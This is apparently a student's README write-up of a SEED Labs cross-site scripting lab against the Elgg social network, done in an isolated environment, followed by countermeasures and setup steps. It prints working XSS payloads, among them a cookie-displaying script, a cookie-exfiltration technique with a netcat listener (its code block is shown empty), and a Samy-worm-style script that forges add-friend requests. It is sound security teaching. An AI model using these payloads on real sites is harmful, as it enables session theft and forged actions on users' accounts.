



<div align="center">

# 🐛 ECE 5480 – P5: Cross-Site Scripting (XSS) Attack Lab


</div>

---

## 🧠 What It Does

A progressive demonstration of Cross-Site Scripting attacks against Elgg, an open-source
social networking web application, culminating in a self-propagating worm modeled on the
2005 Samy Kamkar MySpace worm - using the SEED Labs XSS lab environment.

## 🎯 Why It Matters

Demonstrates that XSS isn't just "a popup shows up" - injected script runs with the full
trust of the vulnerable site, which is what makes cookie theft and self-propagating worms
possible from the same root cause.

> **Ethical use:** conducted entirely within an isolated, provided lab environment against
> test accounts; not directed at any real system or user.

---

## 🕵️ What Is XSS?

Cross-Site Scripting occurs when a web application allows a user to inject client-side
script (typically JavaScript) into content that will later be rendered in another user's
browser. Because the browser can't distinguish injected script from the site's own code,
the malicious script runs with the same trust and privileges as the vulnerable site itself
- giving the attacker access to things like cookies, session tokens, and the ability to
perform actions as the victim.

Elgg has built-in XSS countermeasures; this lab environment has them intentionally
disabled to demonstrate how the underlying vulnerability works.

---

## 🎯 Attack Progression

Each task builds on the last, moving from a proof-of-concept injection to a fully
self-propagating attack.

### Task 1 — Basic Script Injection
Injected a minimal JavaScript payload into the "Brief Description" field of a user profile
(Samy's). Any user who views the profile executes the script:

```html
<script>alert('XSS');</script>
```

When another user (Alice) viewed Samy's profile, the alert box fired immediately -
proving the profile field renders injected script rather than treating it as inert text.

### Task 2 — Exposing Session Cookies
Modified the payload to display the viewing user's session cookie instead of a static
message:

```html
<script>alert(document.cookie);</script>
```

This demonstrates the actual security impact of XSS: a script running in the victim's
browser context has full access to `document.cookie`, including session identifiers that
should never be exposed to a third party.

<div align="center">
     
</div>

### Task 3 — Exfiltrating Cookies to the Attacker
This payload uses `document.write()` to inject a hidden 1x1 image tag whose `src` points
to the attacker's own listening server, with the victim's cookie appended as a URL
parameter:

```html
<script>document.write('');
</script>
```

When the browser tries to load the "image," it sends an HTTP GET request to the attacker's
machine - cookie value included - even though no image actually exists there. A `netcat`
listener on the attacker side (`nc -lknv 5555`) captures the incoming request and the
victim's session cookie in the request line.

<div align="center">
     
</div>

### Task 4 — Self-Propagating Attack (Samy Worm Pattern)
The final task builds an attack that requires no cookie-stealing step at all: instead, it
forges an authenticated action directly from the victim's browser, using Elgg's own
JavaScript security tokens (already valid in the victim's session) to add the attacker as
a friend automatically, with no user interaction beyond viewing the profile:

```html
<script type="text/javascript">
window.onload=function(){
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts;
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.send();
}
</script>
```

This payload reads the current viewer's own valid CSRF tokens directly from the page
(`elgg.security.token`) - since the script executes in the victim's authenticated session,
it already has legitimate access to those tokens without needing to guess or steal them.
It then fires an AJAX request to Elgg's "add friend" endpoint using the attacker's GUID
(59), all automatically on page load.

Before the attack, Alice's friends list was empty. After simply viewing Samy's infected
profile - no click, no form submission - Samy appeared in her friends list:

<div align="center">
     
</div>

This is structurally the same technique behind the 2005 Samy worm, which used a nearly
identical self-propagating friend-request payload to add over one million MySpace friends
in under 24 hours - the only missing piece here is that this version doesn't copy itself
into the *viewer's* profile to continue spreading (a deliberate simplification for the lab).

---

## 🛡️ Countermeasures (Reference)

Elgg defends against this class of attack in two layers, both disabled for this lab:

1. **Input filtering** - a plugin (HTMLawed) strips or neutralizes HTML/script tags from
   user-submitted content before storage.
2. **Output encoding** - `htmlspecialchars()` is applied when rendering user content,
   converting characters like `<` and `>` into their HTML entity equivalents (`&lt;`,
   `&gt;`) so any injected markup displays as inert text rather than executing.

---

## 🛠️ Requirements

- VirtualBox or equivalent VM software
- SEED Ubuntu 20.04 VM image
- Docker and Docker Compose (pre-configured in the SEED VM)
- Firefox with the "HTTP Header Live" extension and Web Developer Tools

## ⚙️ Setup

1. Download and unzip the lab setup package into the SEED VM.
2. From the `Labsetup` folder, run `docker-compose build` (one-time), then
   `docker-compose up` to start the containers.
3. Add the required DNS entry mapping `www.seed-server.com` to the Elgg container's IP in
   `/etc/hosts`.
4. Log in to Elgg using the provided test accounts to reproduce each task.

---

## 📝 Notes

This lab uses course-provided infrastructure (Docker container configuration, the Elgg web
application, and the SEED Labs environment) - the attack payloads, execution methodology,
and analysis above are original work.
